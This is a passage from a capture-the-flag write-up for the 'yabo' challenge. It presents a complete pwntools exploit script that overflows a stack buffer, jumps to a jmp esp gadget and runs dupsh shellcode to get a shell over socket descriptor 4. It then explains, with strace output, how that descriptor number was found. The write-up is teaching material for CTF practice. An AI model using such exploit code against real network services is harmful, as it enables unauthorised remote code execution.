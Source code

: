 I'm going to provide three solution, from the last I developed, to the first.  All three are identical except for the shellcode used.

### Solution 3

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./yabo')

if args.REMOTE:
    p = remote('challenge.ctf.games', 32332)
else:
    p = remote('127.0.0.1', 9999)

shellcode = asm(shellcraft.dupsh(4))

log.info('len(shellcode): ' + str(len(shellcode)))

jmp_esp = next(binary.search(asm('jmp esp')))

payload  = b''
payload += 0x414 * b'A'
payload += p32(jmp_esp)
payload += shellcode

if payload.find(b'\0') != -1:
    log.critical('NULL in payload, exiting!')
    print(disasm(shellcode))
    sys.exit(1)

p.sendlineafter(b'say?: ',payload)
p.interactive()
```

Up to the `shellcode` line it's standard pwntools header, however pwntools does all the work for you with its `shellcraft.dupsh` widget.  You just need to know the file descriptor to pass and that can be obtained from `strace`:

```
[pid 29960] brk(NULL)                   = 0x895c000
[pid 29960] brk(0x897d000)              = 0x897d000
[pid 29960] brk(0x897e000)              = 0x897e000
[pid 29960] send(4, "What would you like to say?: ", 29, 0) = 29
[pid 29960] recv(4, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 3839, 0) = 1088
```

See the `4` being passed to `send` and `recv`?  It will always be `4` (at least for this challenge).

> The short of it is, file descriptors `0`, `1`, `2` are conventionally used for `stdin`, `stdout`, `stderr`.  For a challenge like this FD `3` is the socket listening to port `9999` (see `main`).  When you connect to port `9999` (FD `3`) the process is forked and that forked process has a copy of the FDs, so the next FD returned from the `accept` call will be `4`.  And in most CTF challenges like this, it is `4`.  That `4` is passed to the `vuln` function for `send` and `recv` use.
